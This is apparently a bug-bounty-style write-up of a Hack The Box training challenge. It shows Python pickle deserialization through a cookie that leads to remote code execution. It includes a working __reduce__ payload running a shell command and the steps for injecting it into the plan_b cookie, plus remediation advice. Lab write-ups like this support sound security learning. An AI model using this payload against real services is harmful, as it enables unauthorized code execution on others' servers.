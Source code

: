 # Bug Bounty Report

## Bug Details
- **Target:** [https://app.hackthebox.com/tracks/OWASP-Top-10](https://app.hackthebox.com/tracks/OWASP-Top-10) (baby website rick)

## Bug Description
A security vulnerability has been identified in the target web application that allows for arbitrary code execution via the Python pickle module. The issue arises from the insecure usage of pickle for object serialization.

- **Vulnerable Object:** `<__main__.anti_pickle_serum object at 0x7f17ddb057d0>`
- **Exploitation Method:** Utilizing pickle for object serialization and deserialization.

## Steps to Reproduce
1. Use Burp Suite to intercept the request and identify the cookies, specifically `laravel_session`, `io`, and `plan_b`.
2. Extract the value of `plan_b` from the cookie.
3. Base64-decode the `plan_b` value: `echo '{plan_b cookie}' | base64 -d`.
4. Create an unpickled.py file with the following content:
    ```python
    import pickle
    from base64 import b64decode

    class anti_pickle_serum(object):
        def _initi_(self):
            pass

    cookie = b'<decoded plan_b cookie>'
    unpickled = pickle.loads(b64decode(cookie))
    print(unpickled)
    ```
5. Create pickle.py with the following content to generate the malicious pickled payload:
    ```python
    from base64 import b64encode
    import subprocess
    import pickle
    import os

    class anti_pickle_serum(object):
        def __reduce__(self):
            return subprocess.check_output, (['ls'],)

    pickled = pickle.dumps({'serum': anti_pickle_serum()}, protocol=0)
    encodedpickled = b64encode(pickled)

    print(encodedpickled)
    ```
6. Run pickle.py to obtain the encoded pickled payload.
7. Replace the original value of `plan_b` in the cookie with the new encoded pickled payload.
8. Inject the modified cookie into the request.

## Expected Behavior
The application should properly validate and sanitize user input, ensuring that the usage of the pickle module does not lead to arbitrary code execution.

## Actual Behavior
The application is vulnerable to arbitrary code execution through insecure usage of the pickle module. This is evidenced by the ability to inject a malicious pickled payload into the cookie, resulting in the execution of arbitrary commands.

## Vulnerability Impact
The identified vulnerability allows attackers to execute arbitrary code on the server, posing a severe risk to the confidentiality and integrity of the web application.

## Proof of Concept
1. Successfully decode the `plan_b` cookie.
2. Generate a malicious pickled payload using pickle.py.
3. Replace the original `plan_b` value with the new encoded pickled payload.
4. Inject the modified cookie into the request.
5. Observe the execution of the arbitrary command (e.g., ls) on the server.

## Affected Components
- Insecure usage of the pickle module in Python.

## Recommendations
1. **Input Validation and Sanitization:**
    - Implement proper input validation and sanitization to prevent the injection of malicious pickled payloads.

2. **Avoid Using Pickle for Untrusted Data:**
    - Refrain from using the pickle module to serialize or deserialize untrusted data.

3. **Security Auditing:**
    - Conduct regular security audits to identify and remediate potential vulnerabilities in the codebase.